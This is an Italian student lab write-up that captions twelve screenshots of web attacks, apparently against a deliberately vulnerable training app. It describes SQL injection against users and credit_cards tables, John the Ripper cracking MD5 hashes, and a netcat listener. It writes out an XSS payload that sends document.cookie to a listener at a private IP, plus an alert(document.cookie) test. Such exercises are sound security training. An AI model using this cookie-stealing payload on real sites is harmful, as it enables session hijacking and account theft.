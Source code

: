 # LezioneS6_L5

# Screenshot 1:  Lo script <script>window.location="http://192.168.50.100:12345/?cookie"+document.cookie</script> imposta la posizione del browser a un URL specifico ('http://192.168.50.100:12345/') aggiungendo i cookie dell'utente (document.cookie) alla fine dell'URL come parametro.
# Screenshot 2:  Il server rimane in ascolto sulla porta 12345. Quando un client si connetterà a questa porta, netcat mostrerà i dati inviati dal client sullo stdout
# Screenshot 3:  La stringa è un'attacco di SQL injection per recuperare le informazioni sugli utenti e le password dalla tabella users di un database.
# Screenshot 4:  Il comando esguito è una chiamata al programma John the Ripper, un popolare strumento di cracking delle password. Questo comando viene utilizzato per eseguire un attacco di forza bruta o di dizionario per cercare 
di recuperare le password da un file hash MD5.
# Screenshot 5:  Questa stringa è simile allo screenshot 3, dove l'obiettivo è quello di ottenere informazioni sensibili come il numero della carta di credito (ccnumber) e il codice di verifica della carta di credito (ccv) dalla 
tabella credit_cards.
# Screenshot 6:  Questa stringa è un tentativo di attacco di SQL injection, simile allo Screenshot 3 e 5. L'obiettivo sembra essere quello di recuperare informazioni sensibili come i numeri 
delle carte di credito (ccnumber) e le date di scadenza delle carte di credito (expiration) dalla tabella credit_cards di un database, presumibilmente all'interno di un'applicazione vulnerabile.
# Screenshot 7:  Questa stringa esegue un'attacco di SQL injection per ottenere informazioni sulle colonne della tabella credit_cards da uno schema di informazioni (information_schema).
# Screenshot 8:  Questa stringa è un attacco di SQL injection per ottenere informazioni sulle tabelle presenti nel database utilizzando lo schema di informazioni (information_schema).
# Screenshot 9:  Questa stringa esegue un attacco di SQL injection per ottenere informazioni sulle tabelle presenti nel database utilizzando lo schema di informazioni (information_schema).
# Screenshot 10: Questa stringa esegue un attacco di SQL injection per recuperare informazioni sulle colonne della tabella 'users' utilizzando lo schema di informazioni (information_schema)
# Screenshot 11: Questa stringa esegue un attacco di Cross-Site Scripting (XSS) inserendo uno script JavaScript malevolo all'interno di un input, come un campo di un modulo web. Lo script <script>alert(document.cookie)</script> è progettato per mostrare una finestra di avviso nel browser dell'utente contenente il valore dei cookie del sito web corrente.
# Screenshot 12: Questa stringa esegue un'attacco di SQL injection in ambiente security level Medium per recuperare le informazioni sugli utenti e le relative password dalla tabella users di un database. 
L'obiettivo di questa query è quello di combinare i risultati della condizione 1 = 1 (che è sempre vera) con i risultati della selezione delle colonne user e password dalla tabella users.

